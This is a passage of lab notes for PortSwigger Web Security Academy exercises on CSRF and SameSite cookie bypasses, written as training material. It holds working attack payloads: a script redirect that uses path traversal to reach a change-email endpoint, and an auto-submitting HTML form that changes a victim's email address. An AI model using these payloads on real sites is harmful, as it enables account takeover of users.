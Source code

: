 - payload3 (append the change email request):
```
post/comment/confirmation?postId=../my-account/change-email?email=paein%40web-security-academy.net&submit=1"
```

`/change-email?email=paein%40web-security-academy.net&submit=1"` is taken from the POST change email request page

- payload4 (URL encode the value of the '&' which is %26):
```
post/comment/confirmation?postId=../my-account/change-email?email=paein%40web-security-academy.net%26submit=1" 
```

- final script payload (append the host https://HOST/POST)
```
<script>
document.location=https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=paein%40web-security-academy.net%26submit=1" 
</script>
```

# 9. SameSite Lax bypass via cookie refresh
##### Study the change email function
1. In Burp's browser, log in via your social media account and change your email address.
2. In Burp, go to the **Proxy > HTTP history** tab.
3. Study the `POST /my-account/change-email` request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass any SameSite cookie restrictions.
4. Look at the response to the `GET /oauth-callback?code=[...]` request at the end of the [OAuth](https://portswigger.net/web-security/oauth) flow. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.

##### Attempt a CSRF attack
1. In the browser, go to the exploit server.
2. Use the following template to create a basic CSRF attack for changing the victim's email address:
```html
<script>
    history.pushState('', '', '/')
</script>

<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>

<script>
    document.forms[0].submit();
</script>
```
